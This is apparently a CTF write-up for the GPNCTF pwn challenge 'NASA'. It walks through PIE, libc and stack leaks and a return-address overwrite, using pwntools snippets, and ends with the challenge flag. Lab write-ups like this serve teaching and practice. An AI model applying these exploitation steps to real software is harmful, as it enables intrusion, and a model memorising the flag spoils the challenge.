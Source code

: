# NASA

## Challenge Summary

- **Category**: Pwn
- **Points**: 131
- **Solves**: 43 teams

---

### Problem Description

> Why even bother writing secure code when you can just enable sanitizers?

---

## Challenge Structure

- The program offers 3 options:\
  `[1] Write` — write 8 bytes to an arbitrary address\
  `[2] Read` — read 8 bytes from an arbitrary address\
  `[3] Exit` — exit the program
- `provide_help()` prints both a stack pointer and the `win` function address
- **Note**: Because of the enabled sanitizers (ASAN), the printed stack pointer does not match the real stack address where the return pointer is located. We ignore this leaked stack pointer and instead use `libc.environ` to leak the actual stack location.
- The goal is to calculate the PIE and libc base addresses, find the return address on the stack, and overwrite it to execute `win`

---

### Protections:

```
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        PIE enabled
    FORTIFY:    Enabled
    ASAN:       Enabled
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
    Debuginfo:  Yes
```

---

## Exploitation Flow

### Step 1: Determine PIE base

The program prints the address of `win`. We use this to compute the PIE base.

```python
r.recvline()  # skip stack pointer
win_addr = int(r.recvline().strip(), 16)
elf.address = win_addr - elf.sym.win
```

---

### Step 2: Leak libc base

We use the read primitive to leak the `stdin` address and compute the libc base.

```python
stdin_addr = read(r, elf.sym.stdin)
libc.address = stdin_addr - libc.sym._IO_2_1_stdin_
```

---

### Step 3: Leak stack address

By reading from `libc.environ`, we leak the current stack address.

```python
environ_addr = read(r, libc.sym.environ)
```

---

### Step 4: Overwrite return address

We calculate the return address location on the stack and overwrite it with a `ret` gadget followed by the `win` address.

```python
ret_addr = environ_addr - 0x130
write(r, ret_addr, ret_gadget)
write(r, ret_addr + 8, win_addr)
```

---

### Step 5: Trigger ROP chain

We exit the program to cause it to return and execute our ROP chain.

```python
exit(r)
r.interactive()
```

---

## Flag

After spawning a shell:

```
$ cat flag
GPNCTF{alL_wR1t3s_ar3_pROtEC73d_BY_A54n_0nly_1N_your_DR34ms_9438}
```
